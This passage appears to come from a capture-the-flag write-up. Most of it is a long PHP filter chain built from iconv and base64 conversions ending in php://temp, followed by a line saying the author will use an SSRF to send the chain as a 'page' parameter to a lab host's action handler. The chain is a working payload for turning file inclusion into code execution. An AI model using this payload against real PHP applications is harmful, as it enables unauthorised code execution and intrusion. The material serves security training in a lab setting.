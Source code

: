 ```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```

I’m going to use the SSRF to hit `image.haxtables.htb/actions/action_handler.php` with a `page` parameter of the filters above. `/index.php` will be appended to the end, but that doesn’t matter, as `php://temp/index.php` will be a valid PHP temp file.
